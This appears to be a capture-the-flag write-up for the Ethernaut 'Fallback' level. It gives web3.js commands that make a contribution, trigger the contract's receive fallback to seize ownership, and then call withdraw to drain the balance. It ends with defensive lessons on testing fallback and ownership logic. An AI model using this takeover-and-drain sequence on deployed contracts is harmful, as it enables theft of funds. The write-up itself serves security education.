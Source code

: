 # Fallback

# Problem Statement
```
Look carefully at the contract's code below.

You will beat this level if
- you claim ownership of the contract
- you reduce its balance to 0

Things that might help
- How to send ether when interacting with an ABI
- How to send ether outside of the ABI
- Converting to and from wei/ether units (see help() command)
- Fallback methods
```

# Solution

## Part 1: Claim ownership of the contract
Reading the contract, this can be accomplished by calling the `contribute` function to put our address into the `contributions` mapping.
After that, we can call the `receive` fallback function to set our address as the `owner`.

Call the `contribute` function:
```
let sig = web3.eth.abi.encodeFunctionSignature("contribute()")
let ethValue = web3.utils.toWei('0.0000001', 'ether') // this amount of ether should allow us to pass the require check
await web3.eth.sendTransaction({
  to: contract.address,
  from: player,
  data: sig,
  value: ethValue
})
```

Call the `receive` function:
```
ethValue = web3.utils.toWei('0.0000000001', 'ether') // we need to send ether for our call to reach the contract's receive fallback
await web3.eth.sendTransaction({to: contract.address, from:player, value: ethValue})
await contract.owner() // note here you are now the owner
```

## Part 2: Reduce contract balance to 0
When part 1 is completed, we can call the `withdraw` function to complete this part.

Call the `withdraw` function:
```
let sig = web3.eth.abi.encodeFunctionSignature("withdraw()")
await web3.eth.sendTransaction({to: contract.address, from:player, data:sig})
```

We've completed this lesson!

# Key Learnings
- When implementing fallback methods, double-check the logic and add unit tests.
- When setting ownership, double-check the logic and add unit tests.
